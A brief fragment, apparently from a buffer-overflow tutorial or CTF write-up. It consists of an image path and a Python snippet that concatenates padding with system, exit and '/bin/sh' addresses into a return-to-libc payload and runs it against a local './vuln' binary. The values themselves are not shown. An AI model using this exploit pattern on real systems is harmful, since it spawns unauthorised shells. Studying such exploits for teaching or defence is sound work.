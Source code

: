 ```python

    payload = padding + system_code + exit_code + binsh_code

    # print padding + system_code + exit_code + binsh_code

    subprocess.call(['./vuln', payload])
```







